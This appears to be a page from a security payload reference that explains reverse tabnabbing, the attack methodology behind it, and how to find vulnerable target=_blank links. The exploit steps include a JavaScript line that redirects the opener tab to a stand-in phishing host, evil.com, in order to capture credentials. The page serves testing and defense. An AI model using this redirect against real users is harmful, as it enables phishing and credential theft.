

repository: swisskyrepo/PayloadsAllTheThings · page: Tabnabbing/index.html · generator: mkdocs

# Tabnabbing

> Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Exploit](#exploit)
* [Discover](#discover)
* [References](#references)

## Tools

* [PortSwigger/discovering-reversetabnabbing](https://portswigger.net/bappstore/80eb8fd46bf847b4b17861482c2f2a30) - Discovering Reverse Tabnabbing

## Methodology

When tabnabbing, the attacker searches for links that are inserted into the website and are under his control. Such links may be contained in a forum post, for example. Once he has found this kind of functionality, it checks that the link's `rel` attribute does not contain the value `noopener` and the target attribute contains the value `_blank`. If this is the case, the website is vulnerable to tabnabbing.

## Exploit

1. Attacker posts a link to a website under his control that contains the following JS code: `window.opener.location = "http://evil.com"`
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.
4. If the victim opens the background tab again and doesn't look at the address bar, it may happen that he thinks he is logged out, because a login page appears, for example.
5. The victim tries to log on again and the attacker receives the credentials

## Discover

Search for the following link formats:

```html
<a href="..." target="_blank" rel=""> 
<a href="..." target="_blank">
```
